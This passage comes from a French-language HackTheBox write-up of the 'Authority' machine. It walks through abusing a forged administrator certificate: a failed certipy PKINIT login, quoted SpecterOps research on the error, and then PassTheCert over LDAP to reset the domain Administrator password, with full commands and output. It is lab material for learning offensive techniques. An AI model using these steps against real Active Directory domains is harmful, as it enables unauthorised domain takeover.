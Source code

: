 Le certificat a bien été généré !!

3) **Authentification**
Avec certipy :
```bash
┌──(kali㉿ldap)-[/media/sf_shared_folder_vm2/HTB/Boxes/Authoriy]
└─$ certipy auth -pfx ./administrator.pfx -dc-ip 10.129.161.2 
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

Cela ne fonctionne pas ! :-(

Pourquoi ? Dans un [autre post des chercheurs](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d), il est indiqué que cette erreur est possible pour les raisons suivantes :

> “[_…when a domain controller doesn’t have a certificate installed for smart cards…_](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771)” is probably the most common reason for KDC_ERR_PADATA_TYPE_NOSUPP. If the DC doesn’t have a “Domain Controller”, “Domain Controller Authentication”, or another certificate with the **Server Authentication** EKU (OID 1.3.6.1.5.5.7.3.1) installed, the DC isn’t properly set up for PKINIT and authentication will fail.
>Also, according to Microsoft, “[_This problem can happen because the wrong certification authority (CA) is being queried or the proper CA cannot be contacted in order to get Domain Controller or Domain Controller Authentication certificates for the domain controller._](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771)” At least in some cases we’ve been able to auth via PKINIT to a DC even when the CA is not reachable, so this situation may be hit and miss.
> If you run into a situation where you can enroll in a vulnerable certificate template but the resulting certificate fails for Kerberos authentication, you can try authenticating to LDAP via SChannel using something like [PassTheCert](https://github.com/AlmondOffSec/PassTheCert). You will only have LDAP access, but this should be enough if you have a certificate stating you’re a domain admin.

Il semble donc que pour une raison ou une autre (un serveur kerberos absent ou non configuré par exemple), le contrôleur de domaine ne soit pas en mesure de prendre en charge le certificat.

Cependant, le certificat lui reste toujours valide (et pendant 20 ans selon le template ! :D ).

Nous allons donc l'utiliser via le programme [passthecert](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python), qui va nous permettre de faire différentes actions avec le certificat.

Notamment, changer le mot de passe de Administrator... 

```bash
──(kali㉿ldap)-[/media/sf_shared_folder_vm2/HTB/Boxes/Authoriy]
└─$ certipy cert -pfx ./administrator.pfx -nokey -out admin.crt                      
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'admin.crt'
                                                                                                                       
┌──(kali㉿ldap)-[/media/sf_shared_folder_vm2/HTB/Boxes/Authoriy]
└─$ certipy cert -pfx ./administrator.pfx -nocert -out admin.key
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing private key to 'admin.key'
                                                                                                                       
└─$ python3 passthecert.py -action modify_user -crt admin.crt -key admin.key -domain authority.htb -dc-ip 10.129.161.2 -target Administrator -new-pass

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully changed Administrator password to: bbp4P5cCIKgpwdHuNVxWpiUEqaOLEVnE
                                                                                                                       
┌──(kali㉿ldap)-[/media/sf_shared_folder_vm2/HTB/Boxes/Authoriy]
```